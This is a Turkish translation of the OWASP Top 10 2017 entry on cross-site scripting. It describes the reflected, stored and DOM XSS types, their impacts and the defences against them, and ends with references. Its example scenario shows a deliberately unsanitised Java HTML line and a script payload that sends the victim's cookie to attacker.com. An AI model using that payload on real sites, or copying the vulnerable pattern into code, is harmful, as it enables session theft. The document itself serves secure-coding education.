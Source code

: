 # A7:2017 Siteler Arası Betik Çalıştırma (XSS)

| Tehdit etkenleri/Saldırı vektörleri | Güvenlik zafiyeti           | Etkiler               |
| -- | -- | -- |
| Erişim Düzeyi : İstismar Edilebilirlik 3 | Yaygınlık 3 : Tespit Edilebilirlik 3 | Teknik 2 : İş |
| Otomatize araçlar XSS'in 3 türünü de tespit ve istismar edebilmektedir. Ayrıca ücretiz olarak erişilebilir istismar araçları da bulunmaktadır. | XSS OWASP İlk 10 içerisindeki en yaygın ikinci problemdir ve tüm uygulamaların yaklaşık üçte ikisinde görülmektedir. Otomatize araçlar, özellikle PHP, J2EE / JSP ve ASP.NET gibi olgun teknolojilerde otomatik olarak bazı XSS problemlerini bulabilmektedir. | Yansıtılmış ve DOM XSS için etki orta düzeyde ve depolanmış XSS için giriş bilgilerini ve oturumları çalma veya kurbana zararlı yazılım bulaştırma gibi kurbanın tarayıcısında uzaktan kod çalıştırmada olduğu gibi ciddi düzeydedir. |

## Uygulamam Açıklık İçeriyor Mu?

Genellikle kullanıcıların tarayıcılarını hedef alan XSS'in üç farklı türü bulunmaktadır:

* **Yansıtılmış XSS**: Uygulama veya API, HTML çıktısının bir parçası olarak doğrulanmamış veya sterilize edilmemiş kullanıcı girdisi içermektedir. Başarılı bir saldırı saldırganın kurbanın tarayıcısında istediği HTML veya JavaScript kodunu çalıştırmasına izin vermektedir. Genellikle, kullanıcının zararlı Watering Hole web sayfaları, reklamlar veya benzerleri gibi saldırgan tarafından kontrol edilen bir sayfaya işaret eden kötücül bir bağlantı ile etkileşime geçmesi gerekmektedir.
* **Depolanmış XSS**: Uygulama veya API başka bir kullanıcı veya bir yönetici tarafından daha sonra görüntülenecek sterilize edilmemiş bir kullanıcı girdisini saklamaktadır. Depolanmış XSS genellikle yüksek veya kritik bir bulgu olarak değerlendirilmektedir.
* **DOM XSS**: Bir sayfa üzerinde saldırgan tarafından kontrol edilebilen veriyi dinamik olarak ekleyen JavaScript çerçeveleri, tek sayfa uygulamaları ve API'ler DOM XSS zafiyeti içermektedir. İdeal olarak, uygulama saldırgan tarafından kontrol edilen veriyi güvensiz JavaScript API'lerine yollamayacaktır.

Sıradan XSS saldırıları oturum çalma, hesap ele geçirme, MFA atlatma, DOM nod değiştirme veya bozma (trojan giriş panelleri gibi), zararlı yazılım indirme, klavye kaydetme ve diğer istemci taraflı saldırılar gibi kullanıcının tarayıcısına karşı yapılan saldırılardır.

## Nasıl Önlenir

XSS açıklığının önlenmesi güvenilmeyen verinin aktif tarayıcı içeriğinden ayırılmasını gerektirmektedir. Bu aşağıdakiler aracılığıyla yapılabilmektedir:

* Ruby on Rails, React JS gibi tasarımsal olarak XSS'i kendiliğinden sterilize eden çerçevelerin kullanımı. Her bir çerçevenin XSS koruma limitleri öğrenilmeli ve kapsamları dışında kalan kullanım örneklerinin üstesinden gelinmelidir.
* HTML çıktısında yer aldığı bağlama göre (body, attribute, JavaScript, CSS veya URL) güvenilmeyen HTTP isteği girdilerinin sterilize edilmesi Yansıtılmış ve Depolanmış XSS açıklıklarını çözecektir. [OWASP Kopya Kağıdı: XSS Korumaları](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) gerekli veri sterilizasyon teknikleri ile ilgili detayları içermektedir.
* İstemci tarafındaki tarayıcı dokümanı değiştirilirken bağlama duyarlı kodlamanın kullanılması DOM XSS açıklığına karşı koruma sağlamaktadır. Bu durum kaçınılmaz olduğunda, OWASP Kopya Kağıdı: DOM tabanlı XSS Koruması isimli dokümanda belirtildiği gibi bağlama duyarlı strelizasyon teknikleri tarayıcı API'lerine uygulanabilir.
* XSS'e karşı derinlemesine savunma kontrolü olarak bir [İçerik Güvenlik Politikası'nın (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) kullanılması. Eğer iç dosya ekleme(örn. dizin aşımı veya izin verilen içerik teslim ağlarından zafiyet içeren kütüphaneler) aracılığıyla zararlı kodun eklenmesine yol açabilecek başka bir açıklık bulunmuyorsa, etkili olacaktır.

## Örnek Saldırı Senaryoları

**Senaryo #1**: Uygulama doğrulama veya sterilizasyon olmadan aşağıdaki HTML parçasının oluşturulmasında güvenilmeyen veriyi kullanmaktadır.

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
Saldırgan tarayıcısında 'CC' parametresini aşağıdaki gibi değiştirmektedir:

`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Bu saldırı kurbanın oturum ID değerinin saldırganın sitesine yollanmasına yol açmakta, bu durum da saldırganın kullanıcının mevcut oturumunu ele geçirmesine izin vermektedir.

**Not**: Saldırganlar uygulamada kullanılacak herhangi bir otomatize Siteler Arası İstek Sahteciliği (CSRF) korumasını atlatmak için XSS açıklığını kullanabilmektedir.

## Kaynaklar

### OWASP

* [OWASP Proaktif Kontroller: Verinin Kodlanması](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Proaktif Kontroller: Verinin Doğrulanması](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Uygulama Güvenliği Doğrulama Standardı: V5](https://owasp.org/www-project-application-security-verification-standard/)
* [OWASP Test Rehberi: Yansıtılmış XSS Testleri](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
* [OWASP Test Rehberi: Depolanmış XSS Testleri](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
* [OWASP Test Rehberi: DOM XSS Testleri](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
* [OWASP Kopya Kağıdı: XSS Önlemleri](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Kopya Kağıdı: DOM tabanlı XSS Önlemleri](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [OWASP Kopya Kağıdı: XSS Filtre Atlatma](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [OWASP Java Encoder Projesi](https://owasp.org/www-project-java-encoder/)

### Dış Kaynaklar

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_client-side-template-injection)
